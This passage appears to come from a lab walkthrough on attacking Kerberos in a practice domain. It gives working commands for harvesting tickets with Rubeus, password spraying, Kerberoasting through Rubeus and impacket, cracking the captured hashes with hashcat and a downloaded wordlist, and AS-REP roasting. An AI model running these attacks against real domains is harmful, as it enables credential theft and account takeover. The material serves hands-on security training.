    cd Downloads
    dir

Harvest the tickets:

    Rubeus.exe harvest /interval:30

### Password spraying

Before password spraying with Rubeus, add the domain controller domain name to the **windows** host file. 
Add the IP and domain name to the hosts file from the machine: 

    echo <MACHINE_IP> CONTROLLER.local >> C:\Windows\System32\drivers\etc\hosts

navigate to the directory Rubeus is in:

    cd Downloads

Password spraying (with a given password and "spray" it against all found users then give the .kirbi TGT for that user):

    Rubeus.exe brute /password:Password1 /noticket

Success! Machine1.

## Kerberoasting

If the service has a registered SPN then it can be Kerberoastable:

    Rubeus.exe kerberoast

Roast with impacket:

    cd /opt/impacket/examples
    sudo python GetUserSPNs.py controller.local/Machine1:Password1 -dc-ip <Machine_IP> -request

The result is 2 service account with their hashes. Save both in separate files (sql-roast.txt and 
http-roast.txt), and crack with hashcat using the provided Pass.txt.

    wget https://raw.githubusercontent.com/Cryilllic/Active-Directory-Wordlists/master/Pass.txt
    hashcat -m 13100 -a 0 http-roast.txt Pass.txt
    hashcat -m 13100 -a 0 sql-roast.txt Pass.txt

## AS-REP Roasting

ssh into the machine:

    $ ssh administrator@<Machine_IP>

Move to the directory where Rubeus is:

    cd Downloads
    dir

Roast:

    Rubeus.exe asreproast
